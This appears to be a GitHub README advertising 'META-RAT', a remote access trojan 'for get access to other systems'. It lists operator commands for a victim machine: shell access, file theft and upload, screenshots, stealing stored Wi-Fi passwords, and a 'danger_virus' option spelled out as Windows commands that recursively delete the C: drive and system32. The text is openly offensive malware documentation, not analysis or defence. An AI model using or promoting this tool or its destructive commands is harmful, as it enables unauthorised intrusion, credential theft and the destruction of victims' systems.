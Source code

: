 # META-RAT
This Tool is for get access to other systems

And This is the options that ypu can do in taget system : 

pwd : pwd 
---
Upload file : upload_file + (with link)
---
Destroy all the system : danger_virus (Remove Windows and system32) #RD C:\ /S /Q del c:\windows\system32*. * /q del /f /s /q “C:*.
---
Download File : pickup + [name of file] (.txt files)
---
Download Image : download
---
Change Directory : cd (cd + [dir name])
---
Rename File : ren_file_ + [file name] + [your name] (Change the name of the file)
---
Shutdown,Restart : shutdown,restart
---
open link : open_link + http://example.com (open any link in target system)
---
drives list : dir_ls (see the name of the drives)
---
system information : sys_info 
---
file list : ls (see all the file names that you are in drive)
---
Remove file : rm_file + [filename] (delete any files for ever)
---
Hack System Wlans : hackwifi (get name) , getpass_[name]
---
upload txt file : uptxt_ + [your text,dont use space] + [yourname]
---
Access Shell : cmd_+[you text] (For Access CMD)
---
Bad Sound : Badvoice_ + [Time]
---
Speak : say_ + [Your Text]
---
Change Background : chback_ + [Image Link] (Change Desktop Wallpaper)
---
Volume -> 100% : volumeup
---
Volume -> 0% : volumedown
---
Take Screen Shot : screenshot
---
![META RAT](https://user-images.githubusercontent.com/102474598/203798410-9f7afc74-be66-4e32-ae84-51b6b022febe.png)

